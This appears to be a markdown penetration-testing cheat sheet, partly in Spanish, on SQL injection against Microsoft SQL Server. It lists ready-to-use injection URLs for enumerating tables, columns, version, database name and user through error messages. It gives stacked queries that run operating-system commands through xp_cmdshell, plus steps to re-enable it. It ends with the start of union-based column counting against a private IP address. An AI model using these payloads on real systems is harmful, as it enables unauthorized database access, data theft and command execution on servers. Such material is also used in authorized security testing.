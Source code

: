 ## Case 2 MSSQL
https://www.exploit-db.com/papers/12975/

* Enumerate column and table name
```
http://www.example.com/page.asp?id=1' HAVING 1=1--
Error message: Column 'news.news_id' is invalid                 < table_name.column
```
```
http://www.example.com/page.asp?id=1' GROUP BY news.news_id HAVING 1=1--
Error message: Column 'news.news_author' is invalid           < table_name.column2
```
```
http://www.example.com/page.asp?id=1' GROUP BY news.news_id,news.news_author HAVING 1=1--
Error message: Column 'news.news_detail' is invalid             < table_name.column3
```
Until no error

* Enumerate version, db name, users:
```
http://www.example.com/page.asp?id=1+and+1=convert(int,@@version)--
http://www.example.com/page.asp?id=1+and+1=convert(int,db_name())--
http://www.example.com/page.asp?id=1+and+1=convert(int,user_name())--       << Is the user running as dbo or sa?
```
```
xp_cmdshell << if running as database admin
http://www.example.com/news.asp?id=1; exec master.dbo.xp_cmdshell 'command'
'; exec master.dbo.xp_cmdshell 'command'
```


On MSSQL 2005 you may need to reactivate xp_cmdshell first as it's disabled by default:
```
EXEC sp_configure 'show advanced options', 1;--
RECONFIGURE;--
EXEC sp_configure 'xp_cmdshell', 1;--
RECONFIGURE;--  
```
On MSSQL 2000:
```
EXEC sp_addextendedproc 'xp_anyname', 'xp_log70.dll';--
```



# 2  Union based SQLI
---

## case 1 MSSQL
ejemplo :192.168.30.35/comment.php?id=437

```
?id=738 order by 1
?id=738 order by 2
?id=738 order by n
hasta que aparece un error " unkown column 7 in order clause"
```

